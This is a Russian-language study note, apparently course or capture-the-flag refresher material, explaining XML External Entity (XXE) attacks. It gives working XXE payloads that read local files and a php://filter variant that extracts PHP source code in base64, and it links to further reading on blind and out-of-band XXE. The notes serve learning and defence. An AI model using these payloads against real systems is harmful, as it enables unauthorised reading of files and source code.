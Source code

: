 # $ xxe

Created: December 26, 2024 5:04 PM
Tags: refreshers

## External XML Entity (XXE) уязвимость

XXE-атака – тип атаки на приложение, основанный на обработке внешних данных небезопасно сконфигурированным XML-парсером. 

## Сущность XXE

Суть ХХЕ заключается в декларации внешних сущностей, которые позволяют “выйти за рамки” просто XML-файла, и выполнить какое-то действие извне.

Пример простого синтаксиса внешней сущности XML.

```xml
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE all [<!ELEMENT all ANY ><!ENTITY entity SYSTEM "flag.txt" >]>
<all>
	<title>&entity;</title>
</all>
```

```bash
<?xml version="1.0" encoding="ISO-8859-1"?><!DOCTYPE all [<!ELEMENT all ANY ><!ENTITY xxe SYSTEM "file:///var/www/html/kronos.txt" >]>
<all>
	<task>&xxe;</task>
</all>
```

## External Entity Filters

С помощью фильтров XML можно преобразовывать интересующую нас информацию в определенный формат. Так, например, преобразование в base64 поможет нам получить исходный код файлов, соблюдая при этом отступы и табуляцию.

```sql
<!DOCTYPE all [<!ELEMENT all ANY ><!ENTITY xxe SYSTEM "php://filter/read=convert.base64-encode/resource=doLogin.php" >]>
<user><username>&xxe;</username><password>pwd</password></user>
```

## Другое

О подтипе XXE OOB атаки, обходе WAF и защите от XXE можно почитать в документе методички.

---

[6.2.1. XXE attack.pdf]($%20xxe%20168021737a89806aad41d3c465afe288/6.2.1._XXE_attack.pdf)

[6.1.3.SQL-инъекции (Cheat sheet ).pdf]($%20xxe%20168021737a89806aad41d3c465afe288/6.1.3.SQL-%25D0%25B8%25D0%25BD%25D1%258A%25D0%25B5%25D0%25BA%25D1%2586%25D0%25B8%25D0%25B8_(Cheat_sheet_).pdf)

1. [Bugbounty-cheatsheet](https://github.com/EdOverflow/bugbounty-cheatsheet/blob/master/cheatsheets/xxe.md)
2. [XML Security](https://github.com/OWASP/CheatSheetSeries/blob/master/cheatsheets/XML_Security_Cheat_Sheet.md)
3. [Эксплуатация уязвимостей XXE в IIS/.NET](https://www.securitylab.ru/analytics/491457.php)
4. [XXE OOB exploitation at Java](http://lab.onsec.ru/2014/06/xxe-oob-exploitation-at-java-17.html)
5. [Hunting in the Dark - Blind XXE](https://blog.zsec.uk/blind-xxe-learning/)